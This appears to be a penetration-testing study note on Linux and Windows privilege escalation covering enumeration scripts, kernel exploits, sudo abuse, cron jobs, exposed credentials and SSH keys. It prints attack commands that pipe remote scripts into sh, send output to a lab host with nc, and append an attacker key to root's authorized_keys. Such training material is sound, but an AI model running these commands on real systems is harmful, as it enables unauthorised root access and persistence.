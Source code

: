 # Privilege Escalation

Our initial access to a target server is usually in the context of a low-privileged user, which would not give full access of a box.

So internal vulnerability is needed for escalating our privileges to root on Linux or administrator/SYSTEM user on Windows.

## PrivEsc checklists

Once we have initial access to the a box, we want to thoroughly enumerate over the box to find PrivEsc vulnerabilities.

There's checklists
[Linux and Windows](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Enumeration scripts

There are scripts that automatically enumerates the web server for PrivEsc

Linux:
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

Windows:
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [JAWS](https://github.com/411Hall/JAWS)

[Suite for PrivEsc scripts](https://github.com/carlospolop/PEASS-ng)

Sometimes scripts can trigger anti-viruses and stop scripts from running, so sometimes manual enumeration is better.

## Example

To run LinPeas
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```bash
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
```bash
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```
```bash
# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

## Kernel exploits

With old OS, we can look for kernel exploits. In the hackthebox example they ran LinPeas on server which had Linux version `3.9.0-73-generic` which has a `CVE-2016-5195` known as DirtyCow, which can be downloaded and run to gain root access.

All these should be run in caution as it can provide instabilities to the exploited system

## Vulnerable software

In Linux we can run `dpkg -l` or windows go to `C:\Program Files` to check for software, and the main goal is to find vulnerable, outdated. 

## User Privileges

When we get into a system we need to check for the privileges we have.

### sudo

It allows users to execute commands as root. We can check what sudo privileges we have with `sudo -l`
```bash
└──╼ $sudo -l
[sudo] password for k3yman: 
Matching Defaults entries for k3yman on parrot:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    timestamp_timeout=30

User k3yman may run the following commands on parrot:
    (ALL : ALL) ALL
    (ALL) ALL
```

As we can see user has complete access to root, so we can just casually `sudo su -` to switch to root. Though password is required when running commands as `sudo`.  

Sometimes some commands can be run without password
`(user : user) NOPASSWD: /bin/echo`
The code above shows that we can run echo without password.
Once we find programs we can run with sudo we can look ways to exploit it.
[GTFOBins](https://gtfobins.github.io/) contains list of commands and how they can be exploited through sudo. Basically if we have root access to any of the applications listed in `GTFOBins` we can gain root access.
[Windows](https://lolbas-project.github.io/#)

## Scheduled tasks

There are ways to make script run at specific interval to carry out a task.

On windows it's called Scheduled Tasks on Linux Cron Jobs

On Linux if we have write permissions to
1. /etc/crontab
2. /etc/cron.d
3. /var/spool/cron/crontabs/root

## Exposed Credentials

Next, we can look for files we can read and see if they contain any exposed credentials. This is very common with configuration files, log files, and user history files (bash_history in Linux and PSReadLine in Windows). The enumeration scripts we discussed at the beginning usually look for potential passwords in files and provide them to us.

If we find any passwords we should check fr password reuse

## SSH Keys

If we have read access over .ssh directory for a specific user, we may read their private ssh keys found in `\home\user\.ssh\id_rsa` or `\root\.ssh\id_rsa` and use them to log in to the server. Then we can copy it and log in into the server.

If ssh keys have lax permissions, ssh server prevents from using those keys. So `chmod 600 private_key`

If we have write access to `./ssh` directory we can add our generated public key to gain access to the server. We have to gain shell as that user to be able to add keys as SSH config will not accepts keys written by other users.

Command to append to authorized keys
```bash
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Now we can login.